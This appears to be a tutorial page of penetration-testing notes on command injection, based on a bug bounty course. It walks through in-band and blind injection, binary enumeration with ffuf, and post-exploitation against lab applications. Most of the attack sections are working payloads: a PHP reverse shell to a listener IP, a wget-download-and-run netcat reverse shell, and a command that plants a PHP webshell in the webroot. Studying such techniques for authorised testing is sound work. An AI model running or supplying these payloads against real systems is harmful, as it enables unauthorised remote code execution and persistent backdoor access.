



# Examples

## In Band


**In-Band CI** occurs when the attacker can directly insert and execute malicious commands in a web application or system’s input fields or parameters, using the same channel to both send commands and receive outputs.


### Simple Payload

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The application takes our input and passes it into a `curl` command which is then `grep`ped (Figure 1.1). We can start simple by just appending a command using `;`, but this gives no output (Figure 1.2). Next, we can try commenting out the `grep` part by using `#` (Figure 1.3).

<figure><figcaption><p>Figure 1: A basic example of a command injection attack.</p></figcaption></figure>

We can also try to achieve RCE[^1] by first checking what technology is used on the application and then getting a payload from a repository such as [PayloadAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#php) (Figure 2).


```bash
;php -r '$sock=fsockopen("172.31.150.94",9999);exec("/bin/sh -i <&3 >&3 2>&3");'#
```


<figure><figcaption><p>Figure 2: Achieving RCE.</p></figcaption></figure>

### Complex Payload

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The application we need to test tracks the fleet vehicle's coordinates and calculates the distance between its current position and its destination (Figure 3).

<figure><figcaption><p>Figure 3: Undestanding the application's functionality.</p></figcaption></figure>

We have two fields that are directly inputted within the executed command. We can start by trying to manipulate the second field first (Figure 4).

```bash
# original command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}'

# our goal command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}';whoami;#

# the payload
222)^2))}';whoami;#

# the final command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}';whoami;#)^2))}'
```

<figure><figcaption><p>Figure 4: Executing a successful CI attack.</p></figcaption></figure>

We can achieve RCE with the same logic using the [previously used payload](examples.md#basic) (Figure 5).


```bash
222)^2))}';php -r '$sock=fsockopen("172.31.150.94",9999);exec("/bin/sh -i <&3 >&3 2>&3");';#
```


<figure><figcaption><p>Figure 5: Achieving RCE via a CI vulnerability.</p></figcaption></figure>

## Blind


**Blind CI** occurs when the attacker does not see the output of the injected commands directly. Instead, they infer the success or failure of the commands through side effects or indirect responses.


> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This time we have the same Network Checker app, but the [previous attack](examples.md#basic) does not work (Figure 6.1). Either something gets filtered, which we can check (Figure 6.2 & 6.3), or we the command is executed but we don't get any output on the front-end.

<figure><figcaption><p>Figure 6: An unsuccessful CI attack.</p></figcaption></figure>

We can try a payload that alters the application's behaviour (similar to [Blind SQLi](../sqli/blind.md)) and see if this works. This can be tested with Burp Suite's Repeater, as it shows the response time in the bottom right corner (Figure 7).

```bash
localhost?q=`sleep 5`
```

<figure><figcaption><p>Figure 7: Confirming a blind CI vulnerability.</p></figcaption></figure>

We also use `time` and `curl` to measure the response time within the CLI.

```bash
$ time curl "http://localhost?q=localhost"
<html>
<SNIP>
</html>

real    0m0.062s # Normal response time
user    0m0.006s
sys     0m0.000s

$ time curl "http://localhost?q=`sleep+5`"
<html>
<SNIP>
</html>

real    0m5.063s # The 'sleep 5' payload worked
user    0m0.003s
sys     0m0.003s
```

Next, we can achieve RCE[^1] by spawning up a web server and passing the desired command as a parameter (Figure 8).

```bash
http://172.31.150.94:9999/?q=`whoami`
```

<figure><figcaption><p>Figure 8: Achieving RCE via a blind CI vulnerability.</p></figcaption></figure>

## Capabilities Recon

When we achieve RCE, we can enumerate the target for useful binaries. The `w00tw00t` was added to the wordlist as an example of what the response of a non-existing binary looks like.


```bash
$ cat capability_checks_linux.txt
w00tw00t
wget
curl
fetch
gcc
cc
nc
socat
ping
netstat
ss
ifconfig
ip
hostname
php
python
python3
perl
java

$ ffuf -u "http://ci-sandbox/php/index.php?ip=127.0.0.1;which%20FUZZ" -w capability_checks_linux.txt -c

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://ci-sandbox/php/index.php?ip=127.0.0.1;which%20FUZZ
 :: Wordlist         : FUZZ: /home/x7331/web200/capability_checks_linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

java                 [Status: 200, Size: 491, Words: 59, Lines: 11, Duration: 4118ms]
perl                 [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 4119ms]
ip                   [Status: 200, Size: 491, Words: 59, Lines: 11, Duration: 4119ms]
python               [Status: 200, Size: 507, Words: 59, Lines: 12, Duration: 4119ms]
php                  [Status: 200, Size: 510, Words: 59, Lines: 12, Duration: 4120ms]
hostname             [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 4120ms]
fetch                [Status: 200, Size: 492, Words: 59, Lines: 11, Duration: 4148ms]
ss                   [Status: 200, Size: 492, Words: 59, Lines: 11, Duration: 4148ms]
gcc                  [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 4149ms]
ifconfig             [Status: 200, Size: 507, Words: 59, Lines: 12, Duration: 4149ms]
python3              [Status: 200, Size: 508, Words: 59, Lines: 12, Duration: 4276ms]
socat                [Status: 200, Size: 491, Words: 59, Lines: 11, Duration: 5268ms]
cc                   [Status: 200, Size: 503, Words: 59, Lines: 12, Duration: 5297ms]
nc                   [Status: 200, Size: 499, Words: 59, Lines: 12, Duration: 6259ms]
wget                 [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 6259ms]
ping                 [Status: 200, Size: 501, Words: 59, Lines: 12, Duration: 6291ms]
curl                 [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 6291ms]
w00tw00t             [Status: 200, Size: 491, Words: 59, Lines: 11, Duration: 7282ms]
```


Based on the above results, the response `491` can be filtered out.


```bash
$ ffuf -u "http://ci-sandbox/php/index.php?ip=127.0.0.1;which%20FUZZ" -w capability_checks_linux.txt -c -fs 491

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://ci-sandbox/php/index.php?ip=127.0.0.1;which%20FUZZ
 :: Wordlist         : FUZZ: /home/x7331/web200/capability_checks_linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 491
________________________________________________

wget                 [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 4098ms]
curl                 [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 4098ms]
python3              [Status: 200, Size: 508, Words: 59, Lines: 12, Duration: 4098ms]
php                  [Status: 200, Size: 510, Words: 59, Lines: 12, Duration: 4130ms]
cc                   [Status: 200, Size: 503, Words: 59, Lines: 12, Duration: 4133ms]
nc                   [Status: 200, Size: 499, Words: 59, Lines: 12, Duration: 4133ms]
hostname             [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 4863ms]
gcc                  [Status: 200, Size: 504, Words: 59, Lines: 12, Duration: 5888ms]
ping                 [Status: 200, Size: 502, Words: 59, Lines: 12, Duration: 5920ms]
ifconfig             [Status: 200, Size: 506, Words: 59, Lines: 12, Duration: 6912ms]
perl                 [Status: 200, Size: 505, Words: 59, Lines: 12, Duration: 6912ms]
python               [Status: 200, Size: 507, Words: 59, Lines: 12, Duration: 6912ms]
```


### Reverse Shell

Next, we can try sending a [reverse shell](../../../tools/shells/reverse-shells.md) from the target to our attack host.&#x20;

### File Transfer

If the target is hardened and we are unable to get a reverse shell, we can try downloading a binary to the target ourselves. In the example below, we download the netcat binary, make it executable, and then execute a reverse shell payload.


```bash
wget http://192.168.49.51:80/nc -O /var/tmp/nc ; chmod 755 /var/tmp/nc ; /var/tmp/nc -nv 192.168.45.155 9090 -e /bin/bash
```


### Webshell

If we don't have access to unique binaries and we know the technology that the application uses, we can write our own backdoor. We first need to find the present working directory via the CI vulnerablity (Figure 9).

<figure><figcaption><p>Figure 9: Enumerating the present working directory.</p></figcaption></figure>

We can create a payload that creates a PHP webshell under the webroot.

```bash
echo+"<pre><?php+passthru(\$_GET['cmd']);+?></pre>"+>+/var/www/html/webshell.php
```

Next, we can interact via our webshell.

```bash
$ curl http://ci-sandbox/webshell.php?cmd=id
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

[^1]: Remote Code Execution
